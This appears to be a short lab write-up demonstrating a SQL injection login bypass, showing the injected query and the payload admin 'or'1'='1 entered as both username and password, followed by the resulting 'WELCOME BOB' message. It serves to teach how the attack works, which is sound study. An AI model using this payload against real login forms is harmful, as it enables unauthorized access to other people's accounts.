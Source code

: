 
Firstly i have entered randon username ans passowrd and it's showing login faild
and now we will run query and enter given usename and password and it will showing welcome messege.


SELECT * FROM user WHERE name='admin 'or'1'='1' and password='admin 'or'1'='1'

admin 'or'1'='1' we write this sql query as a id and password

admin 'or'1'='1 (usename)

admin 'or'1'='1 (password)

now we enter this usename and password as and try to login

login successful showing WELCOME BOB